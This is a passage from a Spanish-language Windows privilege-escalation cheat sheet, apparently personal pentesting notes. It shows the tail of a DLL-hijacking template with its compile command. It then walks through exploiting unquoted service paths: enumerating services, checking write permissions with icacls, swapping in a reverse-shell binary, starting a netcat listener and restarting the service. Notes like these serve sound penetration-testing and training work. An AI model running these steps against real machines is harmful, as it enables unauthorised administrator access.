             break;
            case DLL_THREAD_DETACH: // A thread exits normally.
            break;
            case DLL_PROCESS_DETACH: // A process unloads the DLL.
            break;
        }
        return TRUE;
    }

#### Lo compilamos

    gcc script.c --shared -o <libreria_a_reemplazar>.dll


#### La pasamos al sistema en la carpeta donde tenemos privilegios para escribir y esperamos que un usuario con más privilegios corra el programa.


---
### EXPLOTACIÓN DE SERVICIOS UNQUOTED:

Es posible explotarlo cuando el path del servicio no está entre comillas y tiene espacios en los nombres del path.

Primero listamos loos servicios

##### Powershell

    Get-CimInstance -ClassName win32_service | Select Name,State,PathName

##### CMD

    wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
Hacemos una query al servicio y vemos si el BINARY_PATH_FILE se encuentra con las caracteristicas antes mencionadas:

        sc qc servicio

Vemos quienes pueden escribir en el directorio del servicio:

        icacls "C:\Program Files\Unquoted Path Service\" 

Si nuestro usuario/grupo al que pertenece puede leer y escribir reemplazamos el archivo commons.exe por nuestro binario con la reverse shell:

        copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"

ponemos un netcat en listener y corremos el servicio


        net start servicio
#### Con powerUP

##### 1) Cargamos powerup
    
    Invoke-module .\PowerUp.ps1
